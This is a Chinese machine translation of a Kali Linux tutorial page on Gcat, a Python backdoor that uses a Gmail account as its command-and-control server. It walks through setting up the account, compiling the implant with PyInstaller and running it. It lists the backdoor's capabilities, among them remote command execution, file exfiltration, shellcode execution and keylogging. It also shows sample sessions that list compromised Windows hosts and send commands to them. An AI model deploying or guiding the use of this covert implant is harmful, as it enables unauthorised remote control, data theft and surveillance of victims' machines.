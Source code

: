 # Gcat 偷偷后门使用 Gmail 作为命令和控制服务器

> 原文：<https://kalilinuxtutorials.com/gcat-gmail-command-control-server/>

Gcat 是一个基于 Python 的秘密后门，它使用 Gmail 作为命令和控制服务器。这个项目的灵感来自本杰明唐纳利的原始概念代码。

**也读作[syl kie–IPv6 地址欺骗与邻居发现协议](https://kalilinuxtutorials.com/sylkie-ipv6-address-spoofing/)**

## **设置 Gcat**

为此，您需要:

*   Gmail 帐户(使用专用帐户！不要用你的私人手机！)
*   在帐户的安全设置下打开“允许不太安全的应用程序”
*   您可能还需要在帐户设置中启用 IMAP

此回购包含两个文件:

*   用于枚举可用客户端并向其发出命令的脚本
*   `implant.py`实际的后门部署

在这两个文件中，使用您之前设置的帐户的用户名和密码编辑`gmail_user`和`gmail_pwd`变量。

您可能想要使用 Pyinstaller 将`implant.py`编译成可执行文件。

**注意:**建议您使用 32 位 Python 安装来编译 implant.py

## **用法**

```
**optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -id ID                Client to target
  -jobid JOBID          Job id to retrieve

  -list                 List available clients
  -info                 Retrieve info on specified client

Commands to execute on an implant

  -cmd CMD              Execute a system command
  -download PATH        Download a file from a clients system
  -upload SRC DST       Upload a file to the clients system
  -exec-shellcode FILE  Execute supplied shellcode on a client
  -screenshot           Take a screenshot
  -lock-screen          Lock the clients screen
  -force-checkin        Force a check in
  -start-keylogger      Start keylogger
  -stop-keylogger       Stop keylogger** 
```

*   **一旦在几个系统上部署了后门，就可以使用 list 命令检查可用的客户端:**

```
**#~ python gcat.py -list
f964f907-dfcb-52ec-a993-543f6efc9e13 Windows-8-6.2.9200-x86
90b2cd83-cb36-52de-84ee-99db6ff41a11 Windows-XP-5.1.2600-SP3-x86**
```

输出是一个 UUID 字符串，它唯一地标识系统和运行植入的操作系统

*   **让我们向一个植入物发出命令:**

```
**#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -cmd 'ipconfig /all'
[*] Command sent successfully with jobid: SH3C4gv**
```

这里我们告诉`90b2cd83-cb36-52de-84ee-99db6ff41a11`执行`ipconfig /all`，然后脚本输出`jobid`，我们可以用它来检索该命令的输出

*   让我们看看结果吧！

```
**#~ python gcat.py -id 90b2cd83-cb36-52de-84ee-99db6ff41a11 -jobid SH3C4gv     
DATE: 'Tue, 09 Jun 2015 06:51:44 -0700 (PDT)'
JOBID: SH3C4gv
FG WINDOW: 'Command Prompt - C:\Python27\python.exe implant.py'
CMD: 'ipconfig /all'**
```

```
**Windows IP Configuration

        Host Name . . . . . . . . . . . . : unknown-2d44b52
        Primary Dns Suffix  . . . . . . . : 
        Node Type . . . . . . . . . . . . : Unknown
        IP Routing Enabled. . . . . . . . : No
        WINS Proxy Enabled. . . . . . . . : No**

**-- SNIP --** 
```

*   这就是它的主旨！但是您可以做更多的事情，正如您可以从脚本的用法中看到的那样！

[![](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/byt3bl33d3r/gcat)